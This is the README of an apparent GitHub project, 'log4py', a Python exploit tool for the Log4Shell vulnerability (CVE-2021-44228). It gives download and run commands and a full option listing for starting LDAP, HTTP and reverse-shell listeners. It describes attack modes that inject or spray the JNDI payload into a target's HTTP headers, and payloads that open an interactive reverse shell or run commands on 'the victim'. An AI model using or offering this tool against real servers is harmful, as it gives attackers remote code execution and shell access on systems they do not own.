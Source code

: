 # log4py
Pure python reverse shell for CVE-2021-44228 log4shell. Big thanks to [dotPY-hax/log4py](https://github.com/dotPY-hax/log4py) for the original pure python PoC and pre-compiled java bytecode.

## Features:
* Pure python3, no java required!
* Zero dependencies! Simply download and execute `python main.py`
* Built in LDAP, HTTP and ReverseShell listeners
* Easily custimizable command line arguments
* Automatic class random class renaming to prevent cases where classes are cached by the java runtime
* Different built-in attack modules:
	* Manual - Simply gives you the JNDI payload link for you to manually post to the target [default]
	* Header Attack - Specify URL, Method and Header to send the JNDI payload in
	* Shotgun - Specify URL and spray the JNDI header as many places as possible, hoping that one of them triggers loggin to log4j
* Different Payloads:
	* Pure Java Reverse Shell - Optionally specify shell to execute commands with. The log4py has built in interactive reverse shell listener! [default]
	* Execute Shell Command - Specify single command to execute on the target


# Usage:
Download repository:
```bash
git clone https://github.com/ItemizeNTNU/log4py
cd log4py
```
Then to run the exploit:
```bash
python3 main.py --ip <your callback ip>
```
Example output:
![Example outout of reverse shell](./docs/images/reverse-shell.png)

Then simply upload the JNDI string to the vulnerable log4j application.

The script starts 3 servers on your machine with default ports:
* LDAP server on port 49501
* HTTP server on port 49502
* Reverse Shell server on port 49503

# Options
Use `python3 main.py --help` for help on different options:
```java
usage: main.py [-h] [--ip IP] [--ldap-port {1..65535}] [--http-port {1..65535}] [--attack {ManualAttack,HTTPHeaderAttack,HTTPShotgunAttack}] [--payload {ReverseShell,ShellCommand}] [--once]
               [--specific-listener] [--list-attacks] [--list-payloads] [--attack-http-header-method {GET, POST, OPTIONS, ...}] [--attack-http-header-header HEADER_NAME]
               [--payload-reverse-shell-port {1..65535}] [--payload-reverse-shell-shell SHELL] [--payload-shell-command-cmd CMD]

Pure python Log4Shell Exploiter

optional arguments:
  -h, --help                                                  show this help message and exit
  --ip IP                                                     Callback ip that the victim server can reach you at (default: auto)
  --ldap-port {1..65535}                                      Port to listen at for the LDAP server (default: 49501)
  --http-port {1..65535}                                      Port to listen at for the HTTP server (default: 49502)
  --attack {ManualAttack,HTTPHeaderAttack,HTTPShotgunAttack}  Callback ip that the victim server can reach you at (default: ManualAttack)
  --payload {ReverseShell,ShellCommand}                       Java payload class to send (default: ReverseShell)
  --once                                                      If true, listeners will only listen for one connection then close (default: False)
  --specific-listener                                         If true, only listen on the specific --ip, else listen on 0.0.0.0 (default: False)
  --list-attacks                                              List all available attacks (default: False)
  --list-payloads                                             List all available payloads (default: False)
  --attack-http-header-method {GET, POST, OPTIONS, ...}       HTTP method to use for the HTTPHeaderAttack (default: GET)
  --attack-http-header-header HEADER_NAME                     Header to inject the JNDI payload to (default: None)
  --payload-reverse-shell-port {1..65535}                     Port to listen at for the reverse shell payload (default: 49503)
  --payload-reverse-shell-shell SHELL                         Shell to execute interactive commands with (default: /bin/sh)
  --payload-shell-command-cmd CMD                             Command to execute on the victim (default: None)
```

# Todo:
* More custimizable java payloads, possible optional integration with javac for auto compilation